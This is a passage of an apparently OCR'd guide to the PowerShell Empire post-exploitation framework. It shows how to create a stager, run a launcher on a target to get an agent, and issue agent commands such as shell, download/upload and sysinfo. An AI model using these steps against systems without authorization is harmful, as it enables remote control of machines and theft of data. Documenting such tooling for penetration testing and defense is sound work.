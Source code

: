    ```bash
   set Listener http
   ```

5. Create the stager file:

   ```bash
   execute
   ```

### PowerShell Empire Agent

The agent is the final payload retrieved by the stager which allows us to execute commands and interact with the target.  

#### Connecting an Agent

1. Transfer the launcher to the target

2. Execute the launcher on the target to upload the agent

3. List the active agents

   ```bash
   agents
   ```

4. Select an agent to interact with to issue commands:

   ```bash
   # The NAME is a random string, but you can tab it out at least
   interact NAME
   ```

#### Agent Management Commands

These commands are used from the agents context menu.  Do not try to use these from within an agent session, as some have a different function there.

```bash
# Connect to an agent
interact NAME

# Kill an agent session by its NAME
kill NAME

# Remove an orphaned Agent session
remove NAME
```

#### Agent Commands

```bash
# Help menu
help

# Rename the Agent Session
rename NEWNAME

# Target System Information
sysinfo

# Download/Upload a file
download
upload

# Run a shell command
shell "COMMAND"

# Show all running processes on the target
ps
```